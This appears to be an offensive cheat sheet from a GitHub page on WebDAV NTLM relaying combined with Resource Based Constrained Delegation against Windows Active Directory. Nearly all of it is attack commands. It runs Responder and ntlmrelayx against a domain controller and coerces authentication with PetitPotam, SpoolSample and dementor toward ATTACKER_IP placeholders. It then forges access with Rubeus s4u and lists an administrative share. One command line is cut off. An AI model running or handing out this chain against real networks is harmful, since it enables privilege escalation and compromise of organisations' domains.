 # WebDav Relaying

### Example of exploitation where you can coerce machine accounts to authenticate to a host and combine it with Resource Based Constrained Delegation to gain elevated access. It allows attackers to elicit authentications made over HTTP instead of SMB

## Requirements

#### 1) WebClient service

## Exploitation

#### 1) Disable HTTP in Responder: sudo vi /usr/share/responder/Responder.conf

#### 2) Generate a Windows machine name: sudo responder -I eth0 , e.g: WIN-UBNW4FI3AP0

#### 3) Prepare for RBCD against the DC: 

    python3 ntlmrelayx.py -t ldaps://dc --delegateaccess -smb2support

#### 4) Discover WebDAV services

    webclientservicescanner 'domain.local'/'user':'password'@'machine'

    crackmapexec smb 'TARGETS' -d 'domain' -u 'user' -p 'password' -M webdav

    GetWebDAVStatus.exe 'machine'

#### 5) Trigger the authentication to relay to our ntlmrelayx:

    PetitPotam.exe WINUBNW4FI3AP0@80/test.txt 10.0.0.4

### the listener host must be specified with the FQDN or full netbios name like logger.domain.local@80/test.txt . Specifying the IP results in anonymous auth instead of System.

## PrinterBug

    dementor.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt"

    SpoolSample.exe "ATTACKER_IP" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt"

## PetitPotam

    Petitpotam.py "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "ATTACKER_IP"

    Petitpotam.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS_NAME@PORT/randomfile.
 
    PetitPotam.exe "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "ATTACKER_IP"

#### 6) Use the created account to ask for a service ticket:

    .\Rubeus.exe hash /domain:purple.lab /user:WVLFLLKZ$ /password:'iUAL)l<i$;UzD7W'

    .\Rubeus.exe s4u /user:WVLFLLKZ$ /aes256:E0B3D87B512C218D38FAFDBD8A2EC55C83044FD24B6D740140C329F248992D8F

    ls \\PC1.purple.lab\c$

